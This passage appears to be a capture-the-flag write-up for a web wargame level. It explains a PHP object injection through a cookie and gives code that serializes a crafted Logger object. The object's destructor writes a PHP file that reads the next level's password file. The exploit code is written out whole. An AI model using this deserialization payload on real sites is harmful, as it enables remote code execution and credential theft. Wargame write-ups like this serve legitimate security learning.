 Cookie injection with serialized `Logger` class. The object is unserialized into the `$drawing` variable: when its life ends, the destructor method is called.

```php
<?php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct() {
        $this->initMsg="hello\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>";
        $this->logFile = "img/hello.php";
  }
}

echo base64_encode(serialize(new Logger()))."\n";
?>
```
